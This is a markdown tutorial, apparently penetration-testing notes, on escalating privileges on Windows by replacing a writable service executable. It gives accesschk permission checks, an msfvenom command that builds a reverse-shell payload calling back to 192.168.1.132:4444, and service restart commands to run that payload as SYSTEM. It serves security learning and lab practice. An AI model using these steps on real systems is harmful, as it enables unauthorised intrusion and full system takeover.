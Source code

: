 
If a service’s **executable file** (`.exe`) is **writable by non-admin users**, it becomes a privilege escalation risk.
You can **replace the original executable with a malicious one**, and when the service is restarted, it will run **your payload** — potentially with **SYSTEM privileges**.
# Step-By-Step
After running PowerUp or WinPEAS of these, look for Files highlighted as **world-writable** (accessible by Everyone or your user)
<img width="900" height="45" alt="image" src="https://github.com/user-attachments/assets/feb952d2-3ad3-4a63-ac47-094ab57c9065" />
*(Example: Found executable* `C:\Program Files\Files Permissions Service\filepermservice.exe` **

###  Step 1: Check File Permissions
Use `accesschk` to see if the executable is writable:
```bash
accesschk.exe /accepteula -quvw "C:\Program Files\Files Permissions Service\filepermservice.exe"
```
Look for `W` write access granted to:
- `Users`
- `Everyone`
- Your own user
<img width="794" height="254" alt="image" src="https://github.com/user-attachments/assets/9069aca8-b8c7-4684-a1cc-50a262bd9f66" />
###  Step 2: Can You Start/Stop the Service?
Check if you can control the service:
```bash
accesschk.exe /accepteula -ucqv filepermsvc
```
Make sure you have:
- `SERVICE_START`
- `SERVICE_STOP`
### Step 3: Create a Malicious Executable
Generate a reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.132 LPORT=4444 -f exe -o reverse.exe
```
###  Step 4: Replace the Service Executable
Copy `reverse.exe` to the victim machine and overwrite the vulnerable service executable:
Replace: `filepermservice.exe` With `reverse.exe` with original name `filepermservice.exe`
Make sure the name and path match exactly. 
*(Backup original executable first if needed)*
###  Step 5: Restart the Service
```bash
net stop filepermsvc
net start filepermsvc
```
Once restarted, it will run **your reverse shell payload**, giving you elevated access (usually SYSTEM).
